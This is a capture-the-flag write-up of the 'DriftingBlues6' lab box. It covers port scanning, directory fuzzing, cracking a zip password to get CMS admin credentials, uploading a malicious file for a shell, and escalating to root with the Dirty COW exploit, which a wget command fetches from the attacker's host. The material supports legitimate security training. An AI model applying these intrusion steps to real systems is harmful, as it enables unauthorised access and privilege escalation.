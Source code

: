 ```yaml
---

title: "DriftingBlues6"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, TextPattern, Insecure File Upload, Dirty Cow]
mermaid: true
image: ../assets/img/pg/offsec.jpeg

---
```


The exploitation of the "DriftingBlues6" box involved several critical steps. First, intelligence gathering was conducted through a port scan using the nmap tool, identifying open ports such as 80. Enumeration revealed the presence of a Textpattern CMS. Through directory fuzzing and a file search, a zip file named "spammer.zip" was found. After cracking the zip password, credentials were extracted, which provided access to the Textpattern admin panel. A malicious file was then uploaded, leading to remote command execution. During post-exploitation, a vulnerable Linux kernel version was identified, and privilege escalation was achieved by using the Dirty Cow exploit, leading to root access. The process included techniques for exploiting web vulnerabilities, file uploads, and privilege escalation, culminating in total system access and the retrieval of proof files.

# Overview

```mermaid
graph TD
    A[Intelligence Gathering]
    A --> B[Port Scan > Port 80]
    B --> C[Enumeration: HTTP > Textpattern CMS]
    C --> D[Exploitation > Zip File Cracking > Insecure File Upload]
    D --> E[Post-Exploitation: Privilege Escalation using Dirty Cow]
    E --> F[Root Shell Access]

```

## 1. Information Gathering

### Port Scan

```bash
sudo nmap -sC -sV -p-  192.168.169.219 -T5 -v
```

Output

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)
```

## 2. Enumeration

### Port 80

![Untitled](../assets/img/pg/Drift/Untitled.png)

Source Page

```html
<!DOCTYPE html>
<html>
<title>driftingblues</title>
<body class="gbody">
<style>
.gbody {
	background-color: #f4ecd8;
	width: 1000px;
	margin: 40px auto;
	font-family: arial;
	font-size: 20px;
	   }

.gempty1 {
	display: inline-block;
	width: 1000px;
	height: 10px;
	border-bottom: solid 1px #000000;
	}

.gempty {
	display: inline-block;
	width: 1000px;
	height: 70px;
	}
	
</style>
<span class="main1">
<h1>Drifting Blues Tech
<h2>please don't hack
<h2>enough is enough!!!
<br><br><img src="db.png">
</span>
<span class="gempty"></span>
</body>
</html>
<!-- 
please hack vvmlist.github.io instead
he and their army always hacking us -->
```

directory fuzzing

```bash
gobuster dir -u http://192.168.169.219 -w /usr/share/wordlists/dirb/big.txt -t 40
```

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/cgi-bin/             (Status: 403) [Size: 291]
/db                   (Status: 200) [Size: 53656]
/index                (Status: 200) [Size: 750]
/robots               (Status: 200) [Size: 110]
/robots.txt           (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 296]
/textpattern          (Status: 301) [Size: 324] [--> http://192.168.169.219/textpattern/]
Progress: 20469 / 20470 (100.00%)

```

robots.txt

![Untitled](../assets/img/pg/Drift/Untitled%201.png)

Discovered the Textpattern CMS

![Untitled](../assets/img/pg/Drift/Untitled%202.png)

[http://192.168.169.219/textpattern/textpattern/](http://192.168.169.219/textpattern/textpattern/) //requesting username and password for the admin page

![Untitled](../assets/img/pg/Drift/Untitled%203.png)

search for files with a .zip extension

```bash
feroxbuster -u http://192.168.169.219/ -k -C 404,403,500 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip
```

```bash
200      GET      212l     1206w    97264c http://192.168.169.219/db.png
200      GET       76l       75w      750c http://192.168.169.219/index
200      GET       76l       75w      750c http://192.168.169.219/
200      GET      212l     1206w    97264c http://192.168.169.219/db
200      GET        5l       14w      110c http://192.168.169.219/robots
200      GET        2l        7w      227c http://192.168.169.219/spammer
200      GET        2l        7w      227c http://192.168.169.219/spammer.zip
```

spammer.zip

![Untitled](../assets/img/pg/Drift/Untitled%204.png)

zip file requests password

![Untitled](../assets/img/pg/Drift/Untitled%205.png)

Crack the hash using the John tool

```bash
zip2john spammer.zip > hash                                  
```

hash

```
spammer.zip/creds.txt:$pkzip$1*1*2*0*1b*f*b003611d*0*27*0*1b*b003*2d41804a5ea9a60b1769d045bfb94c71382b2e5febf63bda08a56c*$/pkzip$:creds.txt:spammer.zip::spammer.zip
```

crack

```bash
john hash 
```

> myspace4         (spammer.zip/creds.txt)
> 

Credentials

![Untitled](../assets/img/pg/Drift/Untitled%206.png)

> mayer:lionheart
> 

## 3. Exploitation

Access the admin panel

![Untitled](../assets/img/pg/Drift/Untitled%207.png)

### Upload file

Create the malicious file and set my IP.

![Untitled](../assets/img/pg/Drift/Untitled%208.png)

[http://192.168.169.219/textpattern/textpattern/index.php?event=file](http://192.168.169.219/textpattern/textpattern/index.php?event=file)

![Untitled](../assets/img/pg/Drift/Untitled%209.png)

Accessed the file at http://192.168.169.219/textpattern/files/

![Untitled](../assets/img/pg/Drift/Untitled%2010.png)

Initial Access

![Untitled](../assets/img/pg/Drift/Untitled%2011.png)

## 4. Post-Exploitation

Kernel Vulnerability

```bash
uname -a
```

> Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
> 

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

```bash
wget http://192.168.45.248/40839.c
gcc -pthread 40839.c -o dirtycow -lcrypt
```

![Untitled](../assets/img/pg/Drift/Untitled%2012.png)

Root Access

![image.png](../assets/img/pg/Drift/image.png)